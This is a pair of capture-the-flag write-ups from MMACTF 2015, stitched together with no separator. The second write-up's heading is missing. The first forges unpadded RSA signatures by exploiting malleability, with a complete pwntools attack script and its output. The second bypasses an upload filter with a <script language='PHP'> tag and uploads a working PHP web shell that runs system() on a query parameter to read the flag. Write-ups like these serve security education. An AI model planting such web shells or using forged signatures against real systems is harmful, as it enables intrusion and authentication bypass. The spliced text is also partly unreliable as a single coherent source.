 # MMACTF 2015: Signer and Verifier

----------
## Challenge details
| Contest        | Challenge     | Category  | Points |
|:---------------|:--------------|:----------|-------:|
| MMACTF 2015 | Signer and Verifier | Crypto |    100 |

**Description:**
>*Signer: nc cry1.chal.mmactf.link 44815*
>
>*Verifier: nc cry1.chal.mmactf.link 44816*

----------
## Write-up

This challenge consists of two services, a signer and a verifier. When we connect to the verifier we see the following:

```bash
$nc cry1.chal.mmactf.link 44816
n = 167891001700388890587843249700549749388526432049480469518286617353920544258774519927209158925778143308323065254691520342763823691453238628056767074647261280532853686188135635704146982794597383205258532849509382400026732518927013916395873932058316105952437693180982367272310066869071042063581536335953290566509
e = 65537
Sign it!
107108056963926119307653689154379598833550598031154162917162315758527187945122022207634177035686529281496908832607092667606369706299100204708802542148796371841158674597117510610317948171940682385931628021629686
```

As we can se we are presented with an RSA public key (in the form of public modulus n and public exponent e) and a challenge plaintext which we somehow have to sign (presumably with the private key corresponding to this public key). When we connect to the signer we get the following:

```bash
$nc cry1.chal.mmactf.link 44815
1234
126500963383535523362422924813570198504368489400746397031182274029742549857996545699890486143555204412107191370721377288720744197999437743673395598519189494683098886868733633814783755962191762295825481720826404197724774063414955423222607128807811029259753833850658565679707331824250463952223440882461917812348
```

This seems to be a signing oracle (no doubt using the private key corresponding to the public key, which is static, used by the verifier) so what's the problem? Well when we pass on a challenge plaintext of the kind given to us by the verifier we get the following:

```bash
$nc cry1.chal.mmactf.link 44815
107108056963926119307653689154379598833550598031154162917162315758527187945122022207634177035686529281496908832607092667606369706299100204708802542148796371841158674597117510610317948171940682385931628021629686
By the way, I'm looking forward to the PIDs subsystem of cgroups.
```

Whereas when we remove or add a single digit to the challenge we get this:

```bash
$nc cry1.chal.mmactf.link 44815
10710805696392611930765368915437959883355059803115416291716231575852718794512202220763417703568652928149690883260709266760636970629910020470880254214879637184115867459711751061031794817194068238593162802162968
147655036597293305287412005777140278249802003939555937089164172422310997238414653941169425568992363729759130379274714704315657478726728732183172990345255790708296252563573275504637254440529890445790003642491465123813432002198838829323949088590667753148114497616813091973209149042178462665092221125938589873673
$nc cry1.chal.mmactf.link 44815
1071080569639261193076536891543795988335505980311541629171623157585271879451220222076341770356865292814969088326070926676063697062991002047088025421487963718411586745971175106103179481719406823859316280216296861
40554833205541852225538783096022884952816938532401725134569154194659158764593741588110294682715910408307274670446470709602661473087620769030150896852818609348118003071968920399236599352135542152945975313345289167077791643988714019511932253264580928444962319227704772912629620902511461638494295201551941416248
```

Looks like our signing oracle won't sign challenges of the size provided to us by the verifier. Not to worry, however. Assuming this is plain, unpadded RSA we can use RSA's malleability property to bypass this check. Given that signing a challenge with an RSA private key is simply modular exponentiation with the private exponent it looks like this:

![alt eq1](eq1.png)

And given that modular exponentiation distributes over modular multiplication this gives us:

![alt eq2](eq2.png)

Hence we can trivially divide our challenge by a number n (provided it is in itself considered valid for signing and the challenge is a multiple of it), say 2, sign it and sign the quotient seperately, multiply them and apply modular reduction with the public key's modulus and hence forge the signature. [The following script](solution/forge.py) automates this:

```python
#!/usr/bin/python
#
# MMACTF 2015
# signerverifier (CRYPTO/100)
#
# @a: Smoke Leet Everyday
# @u: https://github.com/smokeleeteveryday
#

from pwn import *

# Have our data of choice signed by the signer
def do_sign(sign_this, sign_port):
	h_sign = remote(host, sign_port, timeout = None)
	h_sign.sendline(str(sign_this))
	lines = h_sign.recv(1024).split("\n")
	h_sign.close()
	return long(lines[len(lines)-2])

host = 'cry1.chal.mmactf.link'
sign_port = 44815
verify_port = 44816

# Open connections
h_verify = remote(host, verify_port, timeout = None)
lines = h_verify.recv(1024).split("\n")

# Fetch public key
n = long(lines[0][4:])
e = long(lines[1][4:])

# Obtain our challenge plaintext
plaintext = long(lines[len(lines)-2])

# Find proper divisor, the lazy way
divisor = 2
for i in xrange(2, 100):
	if(plaintext % divisor == 0):
		break

assert(plaintext % divisor == 0)

# Divide, sign seperately
signed_0 = do_sign(plaintext / divisor, sign_port)
signed_1 = do_sign(divisor, sign_port)

# Apply modular reduction over product of signed parts to obtain signed product
signed = (signed_0 * signed_1) % n

# Send signature
h_verify.sendline(str(signed))

# Retrieve flag
print h_verify.recv(1024)

h_verify.close()
```

Which gives the following output:

```bash
$forge.py 
[+] Opening connection to cry1.chal.mmactf.link on port 44816: Done
[+] Opening connection to cry1.chal.mmactf.link on port 44815: Done
[*] Closed connection to cry1.chal.mmactf.link port 44815
[+] Opening connection to cry1.chal.mmactf.link on port 44815: Done
[*] Closed connection to cry1.chal.mmactf.link port 44815
MMA{homomorphic_challengers}

[*] Closed connection to cry1.chal.mmactf.link port 44816
```
This uploader deletes all /<\?|php/. So you cannot run php.

http://recocta.chal.mmactf.link:9080/
http://recocta.chal.mmactf.link:9081/ (Mirror 1)
http://recocta.chal.mmactf.link:9082/ (Mirror 2)
http://recocta.chal.mmactf.link:9083/ (Mirror 3)

You can only upload files whose name is matched by /^[a-zA-Z0-9]+\.[a-zA-Z0-9]+$/.

## Solution

Web page contains only one simple upload form:

![Uploader task]
(https://github.com/bl4de/ctf/blob/master/MMACTF_2015/uploader1.png)

Each file is accesible after uploading, so we can try to upload some simple shell to find the flag, which should be placed somewhere on the server.

As we can't use regular PHP script tags, so we have to find another way to upload PHP shell and execute it.
We can use _script_ tag with language set to PHP (we are using uppercases here as lower cases are deleted):
	
```html
<!-- 
file: blade.php
https://github.com/bl4de/ctf/blob/master/MMACTF_2015/blade.php
-->

<form action="" method="get"><textarea name="c" rows="10" cols="80">
	<script language="PHP"> 
		if (isset($_GET['c'])) {echo $_GET['c'];}
	</script>
</textarea><button type="submit">go</button></form><hr /><div><p>Result of <strong>
	<script language="PHP"> 
		if(isset($_GET['c'])){echo $_GET['c'];}
	</script>
</strong></p><pre>

<script language="PHP"> 
	$output="";if (isset($_GET['c'])){$output=@system($_GET['c']);};
</script>
</pre>
</div>	
```

This won't work in the future versions of PHP, as from PHP 7 ASP tags and _script_ tags will be removed.


After uploading the shell, let's take a look around:

![ls -lA executed in /]
(https://github.com/bl4de/ctf/blob/master/MMACTF_2015/uploader2.png)

We can see file named _flag_ in the root directory of the server.

We can execute _cat flag_ command via the shell and catch the flag:

![Flag]
(https://github.com/bl4de/ctf/blob/master/MMACTF_2015/uploader3.png)


## Links

http://php.net/manual/en/language.basic-syntax.phptags.php

